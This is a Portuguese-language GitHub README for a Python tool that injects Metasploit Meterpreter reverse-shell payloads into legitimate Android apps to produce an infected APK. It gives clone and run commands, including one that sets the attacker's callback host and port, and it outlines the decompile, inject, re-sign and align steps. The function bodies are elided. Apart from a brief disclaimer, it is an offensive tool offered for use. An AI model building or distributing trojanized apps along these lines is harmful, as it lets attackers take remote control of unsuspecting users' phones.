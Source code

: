 # Payload APK 
O Payload APK é uma ferramenta simples para injetar payloads Metasploit em aplicativos Android legítimos. Este script automatiza o processo de criação de um APK infectado para fins de teste e pesquisa.

## Requisitos

Certifique-se de ter as seguintes dependências instaladas no seu sistema:

- [APKTool](https://ibotpeaches.github.io/Apktool/)
- [Jarsigner](https://docs.oracle.com/en/java/javase/11/tools/jarsigner.html) ou [APKSigner](https://github.com/iBotPeaches/Apktool)

## Uso

1. Clone o repositório:

    ```bash
    git clone https://github.com/sucloudflare/payload_apk.git
    ```

2. Navegue até o diretório do script:

    ```bash
    cd payload_apk
    ```

3. Execute o script com os argumentos necessários:

    ```bash
    python payload_apk.py --lhost SEU_ENDERECO_IP --lport SUA_PORTA --normal-apk CAMINHO_APK_LEGITIMO --apk-name NOME_APK
    ```

    Certifique-se de substituir `SEU_ENDERECO_IP`, `SUA_PORTA`, `CAMINHO_APK_LEGITIMO` e `NOME_APK` pelos valores desejados.

4. O arquivo APK infectado será gerado no diretório e estará disponível como `Final_Infected.apk`.

<h1>Explicação</h1>

Esse código é um script Python que automatiza o processo de criação de um APK infectado com um payload Meterpreter para fins educacionais e de pesquisa. Aqui está uma breve explicação de cada parte do código: 

    Importação de Bibliotecas: 

    Pitão 

import os
import subprocess
import argparse
import random
import banner
import shutil

O script faz uso de bibliotecas padrão do Python para realizar várias operações, como manipulação de sistema, subprocessos, análise de argumentos da linha de comando, geração de números aleatórios e manipulação de banners. 

Definição de Cores: 

Pitão 

BLUE, RED, WHITE, YELLOW, MAGENTA, GREEN, END = '\33[94m', '\033[91m', '\33[97m', '\33[93m', '\033[1;35m', '\033[1;32m', '\033[0m'

São constantes para melhorar a legibilidade da saída colorida do terminal. 

Obtenção de Argumentos da Linha de Comando:

Pitão 

def obter_argumentos():
    # ...

O script usa a biblioteca  argparse para analisar e obter os argumentos passados pela linha de comando.

Verificação de Dependências: 

Pitão 

def verificar_dependencias(dependencia, nome):
    # ...
def verificar_dependencias_e_atualizacoes():
    # ...

Essas funções verificam se as dependências necessárias, como  apktool,  jarsigner,  apksigner e  zipalign, estão instaladas no sistema. Se não estiverem, o script oferece a opção de instalá-las. 

Função Principal ( main): 

Pitão 

    def main():
        arguments = obter_argumentos()  
        # ...

    A função principal do script onde todo o processo é coordenado. Ele obtém os argumentos da linha de comando, gera variáveis aleatórias, verifica dependências, gera um payload Meterpreter, realiza a descompilação do APK original, faz modificações, compila o APK infectado, assina e ajusta o alinhamento do APK.

O código é bastante extenso, e detalhes específicos de cada função foram omitidos aqui. Se você tiver dúvidas sobre partes específicas ou quiser uma explicação mais detalhada de alguma seção, por favor, sinta-se à vontade para pergunta 


## Contribuindo

Se você encontrar problemas ou tiver sugestões para melhorias, sinta-se à vontade para abrir uma [issue](https://github.com/sucloudflare/payload-apk-generator/issues) ou enviar um [pull request](https://github.com/sucloudflare/payload-apk-generator/pulls).

## Aviso Legal

Este script é destinado apenas para fins educacionais e de pesquisa. O uso indevido deste script em ambientes não autorizados é estritamente proibido.

